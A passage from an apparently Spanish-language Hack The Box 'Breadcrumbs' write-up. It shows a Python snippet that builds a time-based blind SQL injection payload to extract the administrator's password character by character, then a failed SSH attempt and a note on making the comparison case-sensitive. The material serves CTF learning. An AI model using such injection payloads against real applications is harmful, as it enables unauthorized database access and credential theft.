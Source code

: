> [extract_users.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_users.py)

![316bash_scriptSQLi_acc](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_acc.png)

Nice, solo hay un usuario, `administrator`, ahora veamos el contenido del campo `password` relacionado con el usuario `administrator`.

...

##### Obtenemos la información de la columna <u>password</u>.

👀

```py
...
p2 = log.progress("Password administrator")
# Agregamos mas posiciones, quizas la contraseña es larga
for position in range(1, 70):
    for letter in dic_letters:
        time_now = time.time()

        payload = "?method=select&"
        payload += "username=administrator' and if(substr((SELECT password FROM passwords WHERE account='administrator'),%d,1)='%s',sleep(3),1) and '1'='1&" % (position, letter)
        payload += "table=passwords"
...
```

![316bash_scriptSQLi_pass](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_pass.png)

Opa, (vemos los `+` asi que cortamos desde ahí) obtenemos la contraseña del usuario `administrator`. (Antes de probarla contra `SSH`) creo que no nos va a funcionar, ya que no distinguió entre mayúsculas y minúsculas... Y pues es muy raro que no tengamos ni una mayúscula en una password tan larga.

Intentamos conectarnos por medio de `SSH`:

```bash
❭ ssh administrator@10.10.10.228
administrator@10.10.10.228's password: 
Permission denied, please try again.
```

Efectivamente, no logramos entrar, asi que buscando en internet hay dos maneras para que `mysql` haga uso del `case sensitive`, la más sencilla es usar `BINARY` al lado del objeto que estamos buscando:

* [How to check case sensitive SQL](https://stackoverflow.com/questions/16581560/how-to-check-username-and-password-case-sensitive/16581688).
* [La segunda manera, usando valores ascii](https://medium.com/@nyomanpradipta120/blind-sql-injection-ac36d2c4daab).
